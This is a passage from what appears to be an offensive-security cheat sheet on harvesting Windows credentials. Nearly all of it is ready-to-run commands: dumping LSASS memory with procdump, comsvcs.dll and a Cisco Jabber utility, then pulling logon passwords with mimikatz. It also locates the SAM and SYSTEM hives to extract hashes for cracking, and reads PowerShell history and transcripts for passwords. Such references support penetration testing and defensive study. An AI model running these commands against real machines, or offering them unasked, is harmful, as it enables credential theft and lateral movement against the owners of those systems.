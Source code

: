 ```
// or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp

#comsvcs.dll
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full

# ProcessDump from cisco jabber
cd c:\program files (x86)\cisco systems\cisco jabber\x64\
processdump.exe (ps lsass).id c:\temp\lsass.dmp
```
Then dump the credentials offline using mimikatz and its minidump module:
```
mimikatz.exe log "sekurlsa::minidump lsass.dmp" sekurlsa::logonPasswords exit
```
## Passwords in files
```
winPEASany.exe quiet cmd searchfast filesinfo
```
### Alternate data stream
```
Get-Item -path flag.txt -Stream *
Get-Content -path flag.txt -Stream Flag
```
### SAM Files
```
%SYSTEMROOT%\\repair\\SAM  
%SYSTEMROOT%\\System32\\config\\RegBack\\SAM  
%SYSTEMROOT%\\System32\\config\\SAM  
%SYSTEMROOT%\\repair\\system  
%SYSTEMROOT%\\System32\\config\\SYSTEM  
%SYSTEMROOT%\\System32\\config\\RegBack\\system  
```
Generate a hash file for john:
```
pwdump SYSTEM SAM > /root/sam.txt
samdump2 SYSTEM SAM -o sam.txt
```
### Powershell history
```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type C:\Users\swissky\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
cat (Get-PSReadlineOption).HistorySavePath
cat (Get-PSReadlineOption).HistorySavePath | sls passw
```
### Powershell transcript
```
type C:\Users\<USERNAME>\Documents\PowerShell_transcript.<HOSTNAME>.<RANDOM>.<TIMESTAMP>.txt
type C:\Transcripts\<DATE>\PowerShell_transcript.<HOSTNAME>.<RANDOM>.<TIMESTAMP>.txt

#Check is enable in the registry
reg query HKCU\Software\Policies\Microsoft\Windows\PowerShell\Transcription
reg query HKLM\Software\Policies\Microsoft\Windows\PowerShell\Transcription
reg query HKCU\Wow6432Node\Software\Policies\Microsoft\Windows\PowerShell\Transcription
reg query HKLM\Wow6432Node\Software\Policies\Microsoft\Windows\PowerShell\Transcription
dir C:\Transcripts

#Start a Transcription session
Start-Transcript -Path "C:\transcripts\transcript0.txt" -NoClobber
Stop-Transcript
```